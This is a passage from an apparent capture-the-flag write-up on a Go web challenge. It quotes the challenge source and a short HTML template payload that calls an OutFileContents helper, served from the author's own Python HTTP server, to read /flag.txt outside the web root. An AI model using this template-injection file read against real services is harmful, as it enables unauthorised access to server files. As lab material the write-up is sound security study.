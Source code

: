 However, this is not the way. If we look at the source code, we can see that there is a function checking if we are accessing a file outside of the web root folder:
```go
if !reqData.IsSubdirectory("./", TEMPLATE_DIR+"/"+page) {
                        http.Error(w, "Internal Server Error", http.StatusInternalServerError)
                        return
```
This was something I did not find a bypass for, but there is a different solution.
Also within the source code, we find an interesting function:
```go
func (p RequestData) OutFileContents(filePath string) string {
        data, err := os.ReadFile(filePath)
        if err != nil {
                return err.Error()
        }
        return string(data)
}
```
We can supply an html file that calls `OutFileContents`, have the service load our template, then execute a read on flag.txt. Because of the docker files, we know the flag exists at the base directory, outside app:
```
$ cat ../Dockerfile 

FROM alpine:3.18.3
<...SNIP...>
# Copy flag
COPY flag.txt /flag.txt
```

Making the html file:
```html
<!DOCTYPE html>
<html lang="en">
 
<body>
    {{.OutFileContents "/flag.txt"}}
</body>
 
</html>
```
Running a local test is very simple, as we can use our internal IP address and a python server:
```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
My internal IP is `192.168.0.164`, so I can reach this by entering the link as `http://192.168.0.164/test.html`. When we visit, we get the test flag!

![](Images/GhostlyTemplates2.png)
